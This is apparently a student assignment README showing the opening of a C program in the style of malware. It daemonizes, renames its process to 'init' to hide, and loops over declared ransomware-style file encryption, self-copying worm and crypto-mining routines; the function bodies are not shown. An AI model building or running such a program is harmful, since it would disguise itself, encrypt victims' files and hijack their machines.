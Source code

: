 Pengerjaan oleh Bayu Kurniawan

```sh
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <dirent.h>
#include <string.h>
#include <time.h>
#include <signal.h>
#include <sys/wait.h>
#include <sys/prctl.h>
#include <openssl/rand.h>
#include <libgen.h>
#include <errno.h>
#include <zip.h>

#define DAEMON_NAME "init"
#define INTERVAL 30
#define MAX_MINERS 3

// Global variables
pid_t rodok_pid = 0;
pid_t miner_pids[MAX_MINERS] = {0};

// Function prototypes
void daemonize();
void run_wannacryptor(int method);
void encrypt_file(const char *path, unsigned char key);
void encrypt_directory_recursive(const char *path, unsigned char key);
int add_zip_file(zip_t *archive, const char *path, const char *base_path);
void encrypt_directory_zip(const char *path, unsigned char key);
void run_trojan_wrm();
void copy_file(const char *src, const char *dst);
void multiply_malware(const char *target_path);
void run_rodok_exe();
void mine_crypto(int miner_id);
void cleanup();
void remove_directory(const char *path);

int main(int argc, char *argv[]) {
    daemonize();
    prctl(PR_SET_NAME, DAEMON_NAME, 0, 0, 0);
    
    int encryption_method = (getpid() % 2) ? 1 : 2;
    
    signal(SIGTERM, cleanup);
    signal(SIGINT, cleanup);
    
    while(1) {
        run_wannacryptor(encryption_method);
        run_trojan_wrm();
        
        if (rodok_pid == 0) {
            run_rodok_exe();
        }
        
        sleep(INTERVAL);
    }
    
    return 0;
```
